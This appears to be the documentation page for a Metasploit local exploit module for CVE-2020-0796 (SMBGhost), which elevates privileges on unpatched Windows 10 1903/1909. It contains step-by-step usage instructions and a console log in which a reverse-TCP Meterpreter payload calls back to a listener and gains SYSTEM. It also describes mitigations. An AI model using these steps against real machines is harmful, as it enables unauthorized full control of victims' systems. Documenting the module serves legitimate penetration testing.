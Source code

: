 ## Vulnerable Application
A vulnerability exists within the Microsoft Server Message Block 3.1.1 (SMBv3)
protocol that can be leveraged to execute code on a vulnerable server. This
local exploit implementation leverages this flaw to elevate itself before
injecting a payload into winlogon.exe.

This vulnerability was patched in March 2020 but prior to that enough
information was publicly available to trigger a crash which led to pre-patch
workarounds. The official recommendation from [Microsoft][1] at the time was to
disable SMBv3 compression, a feature which this exploit relies on. The module's
check method will determine this value using the registry to identify whether or
not compression has been disabled.

Other recommendations included restricting access to TCP port 445 via firewalls.
Given that this is a local exploit and the connection is made to the local host
this is likely an ineffective measure against this particular implementation of
the vulnerability.

### Installation And Setup
Windows 10 versions 1903 and 1909 (without the patch) are vulnerable out of the
box. The default setting is to have SMBv3 compression enabled.

## Verification Steps

  1. Start msfconsole
  1. Get a Meterpreter session on a vulnerable host
  1. Do: `use exploit/windows/local/cve_2020_0796_smbghost`
  1. Set the `SESSION` and `PAYLOAD` options
  1. Do: `run`
  1. You should get a shell.

## Scenarios

### Windows 10 Version 1909 Build 18363.418 x64

```
msf5 exploit(windows/local/cve_2020_0796_smbghost) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-PKLKKF7\user
meterpreter > sysinfo
Computer        : DESKTOP-PKLKKF7
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/local/cve_2020_0796_smbghost) > show options

Module options (exploit/windows/local/cve_2020_0796_smbghost):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  -1               yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 v1903-1909 x64


msf5 exploit(windows/local/cve_2020_0796_smbghost) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Windows Build Number = 18363
[+] The target appears to be vulnerable.
[*] Reflectively injecting the exploit DLL and executing it...
[*] Sending stage (206403 bytes) to 192.168.159.153
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

[1]: https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/adv200005